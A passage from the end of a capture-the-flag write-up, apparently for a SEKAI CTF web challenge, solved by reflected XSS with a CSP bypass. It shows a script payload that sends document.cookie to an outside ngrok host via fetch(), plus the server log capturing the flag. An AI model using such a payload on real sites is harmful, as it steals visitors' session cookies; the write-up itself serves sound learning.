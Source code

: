 URL decoded payload:

```html
<script src="/**/fetch(`https://50e6-{Redacted}.ngrok-free.app/?cookie=${document.cookie}`)//"></script>
```

HTTP server log:

```shell
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [26/Aug/2024 15:42:05] "GET /?cookie=flag=SEKAI{w4rmUpwItHoUtTags} HTTP/1.1" 200 -
```

Nice! We got the flag!

- **Flag: `SEKAI{w4rmUpwItHoUtTags}`**

## Conclusion

What we've learned:

1. Reflected XSS and CSP bypass